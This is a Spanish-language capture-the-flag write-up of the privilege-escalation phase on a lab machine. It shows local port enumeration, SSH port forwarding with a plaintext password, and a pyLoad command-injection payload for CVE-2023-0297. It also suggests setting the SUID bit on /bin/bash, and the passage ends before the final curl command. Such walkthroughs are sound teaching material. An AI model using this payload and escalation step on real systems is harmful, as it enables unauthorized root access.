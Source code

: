 ## Escalada de privilegios

### Enumeración local

Una buena practica al hacer pentest y tener acceso a la consola del servidor es ver los puertos abiertos solo en la red local, en este caso podemos ver que esta el puerto `8000`.

```bash
sau@pc:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN
#####
```

### PyLoad service

Podemos traerlo con **Port Fordwarding** a través del **SSH** a nuestra maquina. Convertiremos ese puerto `8000` en el puerto `80` para verlo de nuestro lado.

```bash
$ sshpass -p "HereIsYourPassWord1431" ssh -L 80:127.0.0.1:8000 sau@10.10.11.214
```

Ahora con nmap podemos hacer un escaneo especifico a este puerto.

```bash
$ nmap -A -p80 localhost
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE SERVICE VERSION
80/tcp open  http    CherryPy wsgiserver
|_http-server-header: Cheroot/8.6.0
| http-robots.txt: 1 disallowed entry
|_/
| http-title: Login - pyLoad
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%2F
#####
```

Parece ser un servicio web que tiene un **login**, haciendo pruebas podemos asegururar que este no es vulnerable a ningun tipo de bypassing.

![PyLoad service login](/img/blog/writeups/pc/pyload.webp)

### RCE

Investigando más acerca de este servicio; especificamente de vulnerabilidades y exploits, encontramos un articulo donde nos explican que hay un [Remote Command Execution](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/) en una ruta especifica y un [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0297) asignado. En sí la estructura para la inyección de comandos es `pyimport os;os.system("touch /tmp/pwnd");`, debe estar **URL encoded** para que funcione, podemos usar [CyberChef](https://gchq.github.io/CyberChef/) para ello, lo mejor es ejecutar un `chmod u+s /bin/bash` para evitar problemas en los envíos de shell reversa, este es el comando final hecho con `curl`.
